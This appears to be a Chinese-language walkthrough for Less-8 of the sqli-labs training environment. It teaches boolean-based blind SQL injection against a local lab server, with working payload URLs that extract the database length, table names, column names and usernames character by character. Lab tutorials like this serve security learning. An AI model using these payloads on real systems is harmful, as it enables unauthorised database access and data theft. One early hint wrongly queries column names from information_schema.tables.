

# Less - 08

---

# 一、补充知识

---

因为页面只返回yes或no，不返回数据库中的数据，所以我们这里肯定是不能使用union注入的  
​`length(database())>=1`​，判断当前数据库长度是否>=1，正确输出1，错误输出0  
​`substr(database(),1,1)='s'`​，判断当前数据库的第一个字母是否为s，正确输出1，错误输出0，substr的作用是截取长度  
​`ord(substr(database(),1,1))=115`​，转ASCII码判断，正确输出1，错误输出0  
​`substr((select table_name from information_schema.tables where table_schema='A' limit 0,1),1,1)='e'`​，判断A库下面第一张表的第一个字母是否为e，正确输出1，错误输出0  
​`substr((select column_name from information_schema.tables where table_name='B' limit 0,1),1,1)='e'`​，判断B表下面的第一个字段的第一个字母是否为e，正确输出1，错误输出0  
​`substr((select C from A.B limit 0,1),1,1)='e'`​，判断C字段下面的第一个值的第一个字母是否为e，正确输出1，错误输出0

# 二、通关教程

---

## 1、判断闭合

---

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1 #回显正常
http://192.168.225.132/sqli-labs/Less-8/?id=1' #没有任何回显
http://192.168.225.132/sqli-labs/Less-8/?id=1'--+ #回显正常
```

​​

​​

---

## 2、判断当前数据库的长度

---

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1' and length(database())>=1--+
```

​​

## 3、判断security库下的所有表

---

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='a'--+
```

​​

## 4、判断users表下的字段

---

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='a'--+
```

​​

## 5、判断username字段下的值

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1' and substr((select username from security.users limit 0,1),1,1)='c'--+
```

​​

‍
